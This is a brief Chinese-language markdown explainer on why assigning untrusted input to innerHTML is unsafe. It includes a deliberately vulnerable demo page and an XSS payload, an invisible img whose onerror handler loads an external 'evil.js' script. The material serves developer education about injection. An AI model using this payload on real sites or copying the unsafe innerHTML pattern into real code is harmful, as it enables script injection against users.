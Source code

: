 # `innerHTML` 的安全性


## 乍看起来比较安全
HTML5 specifies that a `<script>` tag inserted with `innerHTML`
[should not execute](https://www.w3.org/TR/2008/WD-html5-20080610/dom.html#innerhtml0)
```js
document.body.innerHTML = '<script>alert(666)<\/script>'; // 脚本不会被执行
```


## 但是执行脚本并不一定需要 `<script>`
```js
document.body.innerHTML = '<img src="x" onerror="alert(666)" />';
```

一个较完整的例子：
```html
<input type="text" placeholder="插入你想发送的的文章代码" id="code" />
<input type="button" value="插入文章" id="insert" />
<p id="article"></p>
<script>
document.querySelector('#insert').addEventListener('click', function(){
    document.querySelector('#article').innerHTML = document.querySelector('#code').value;
});
</script>
```
如果用户输入 `<img src="x" style="display:none" onerror="var ele = document.createElement(&quot;script&quot;); ele.src = &quot;evil.js&quot;; document.body.appendChild(ele);" />`，页面上会生成一个不可见的图片，并引入一个外部的恶意脚本 `evil.js`，在这个脚本就可以构造更复杂的 XSS。

